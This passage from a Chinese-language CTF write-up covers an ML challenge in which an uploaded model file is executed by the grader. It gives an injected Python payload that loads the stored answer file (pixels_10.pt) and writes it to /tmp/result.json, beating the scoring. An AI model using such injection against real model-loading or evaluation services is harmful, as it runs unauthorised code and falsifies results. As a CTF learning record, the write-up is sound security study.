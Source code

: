 ```python
    noise = torch.randn(n_samples, dim)
    
    # forward
    with torch.no_grad():
        model.eval()
        predictions = model(noise, tag_ids).clamp(0, 1)
    
    gen_imgs = []
    for i in range(n_samples):
        out_io = io.BytesIO()
        matplotlib.image.imsave(out_io, predictions[i].numpy(), format="png")
        png_b64 = base64.b64encode(out_io.getvalue()).decode()
        gen_imgs.append(png_b64)
    
    # save the predictions
    json.dump({"gen_imgs_b64": gen_imgs}, open("/tmp/result.json", "w"))


if __name__ == "__main__":
    infer(open("checkpoint/model.pt", "rb"))
    print(open("/tmp/result.json", "r").read())
```

在checkpoint目录下有训练好的model.pt，上传后误差很大（机器学习大佬可以考虑训练精准度很高的模型试着上传）

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221106164754107.png)



infer.py加载tags_10.pt对上传的model.pt进行预测，并在训练结束后把答案写进/tmp/result.json中，而在dataset里还有另一个模型，为pixels_10.pt（train.py训练模型的代码如下）。所以构造的关键就是向/tmp/result.json中写入标准的序列化模型。

本题所用的机器学习的知识仅有：训练是指创建模型，向模型展示标签样本，让模型学习特征和标签的关系；推断是指训练后的模型做出有用的预测。train.py便是创建模型。infer.py便是让模型做出预测。预测的标准答案就在pixels.pt里



![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221106174115925.png)



所以payload如下：（因为eval代码执行和本身执行的原因，需要对\和单引号转义）



```python
import io
import json
import base64

import torch
import matplotlib
import matplotlib.image

# 加载正确答案

pixel="pixels_10.pt"
predictions = torch.load(pixel, map_location="cpu")

# 向/tmp/result.json中写入正确数据

gen_imgs = []
for i in range(10):
    out_io = io.BytesIO()
    matplotlib.image.imsave(out_io, predictions[i].numpy(), format="png")
    png_b64 = base64.b64encode(out_io.getvalue()).decode()
    gen_imgs.append(png_b64)

content = json.dumps({"gen_imgs_b64": gen_imgs})
```
